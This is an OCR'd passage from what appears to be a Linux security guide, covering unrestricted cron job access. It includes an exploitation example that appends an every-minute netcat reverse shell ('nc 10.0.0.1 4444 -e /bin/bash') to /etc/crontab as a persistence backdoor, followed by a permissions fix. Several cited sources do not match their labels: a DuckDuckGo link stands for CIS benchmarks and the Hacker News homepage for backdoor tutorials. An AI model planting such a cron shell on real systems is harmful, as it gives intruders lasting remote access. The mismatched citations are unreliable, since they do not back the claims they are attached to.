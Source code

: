       - **Remediation**: [CIS Linux Benchmarks (DuckDuckGo)](https://www.duckduckgo.com/cis-hardening)                                                                                                                                 
      - **Exploitation Example**: [Crontab Backdoor Tutorials (Hacker News)](https://news.ycombinator.com/)                                                                                                                            
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 4. **Unrestricted Cron Job Access**                                                                                                                                                                                           
      **Exploitation Vector**: Attackers leverage weak cron job permissions for lateral movement or persistence.                                                                                                                       
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `crontab`                                                                                                                                                                                                            
      - **Prompt**: "Accept admin-defined scheduled tasks"                                                                                                                                                                             
      - **Resource**: `/etc/crontab`, `/var/spool/cron/crontabs/[user]`                                                                                                                                                                
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      echo "* * * * * nc 10.0.0.1 4444 -e /bin/bash" >> /etc/crontab                                                                                                                                                                   
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 600 /etc/crontab && chown root:root /etc/crontab                                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Source Citations                                                                                                                                                                                                             
      - **Vulnerability**: [Cron Security Vulnerabilities (Arxiv)](https://arxiv.org/abs/2109.09762)                                                                                                                                   
      - **Remediation**: [Red Hat Cron Best Practices](https://www.redhat.com/sysadmin/cron-security-redhat)                                                                                                                           